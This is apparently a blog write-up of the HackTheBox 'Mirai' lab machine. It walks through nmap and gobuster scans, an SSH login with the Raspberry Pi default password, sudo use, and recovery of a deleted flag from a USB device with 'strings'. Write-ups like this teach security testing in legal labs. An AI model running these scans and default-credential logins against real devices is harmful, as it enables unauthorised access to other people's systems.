 ```yaml
---
layout: post
title: HackTheBox Mirai (10.10.10.48) Writeup
description: >
  Hackthebox Mirai Writeup
image: /assets/img/mirai.png
noindex: true
---
```


First we start with an nmap scan.

```
# nmap -sC -sV -T4 -p- 10.10.10.48
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-17 20:17 EDT
Nmap scan report for 10.10.10.48
Host is up (0.056s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1315/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.24 seconds
```
So there are a few ports open but we want port 80. Initially when you navigate to <b>http://10.10.10.48</b> you get nothing but a blank screen. Seeing this, I decided to run a gobuster
```
# gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/d
irbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2019/09/17 20:25:10 Starting gobuster
===============================================================
/admin (Status: 301)
```
Only found one directory. If you go to that page you will be greated with the Pi-Hole Admin Console. This is basically an Ad Blocker running on a Raspberry Pi

![dashboard.png](../../resources/a33a172a9d7f42a7acee5da238d2ba54.png)

I didn't find much more on the webpage. Now my next idea was to try SSH. I no knew that is was running Raspian which has default credentials of user <b>pi</b> pass <b>raspberry</b>.

```
# ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 18 00:37:37 2019 from 10.10.14.21

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```
And we are in. We can grab the user flag now located at <b>/home/pi/Desktop</b>
```
pi@raspberrypi:~ $ ls Desktop/
Plex  user.txt
```
Now for root. If we run <b>sudo -l</b> we can see that we have full sudo privileges. Problem is when we try to read the root flag we get this message
```
pi@raspberrypi:~ $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```
Looks like we are not done just yet. So the message hints at a USB. If you run <b>lsblk</b> you will see that there is a usb mount at <b>/media/usbstick</b>
```
# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```
If you <b>cd</b> in to directory you will see a <b>damnit.txt</b> file. If you read that you will get another message that the root flag was accidentally deleted.
```
# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
The message basically tells us that the root flag is still on the USB just hidden. To find the root flag just use the <b>strings</b> command against <b>/dev/sdb</b> since thats the actual USB
```
# sudo strings /dev/sdb
<output omitted>
root.txt
damnit.txt
>r &
3d3e483143ff12e**************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
<br><br><br>
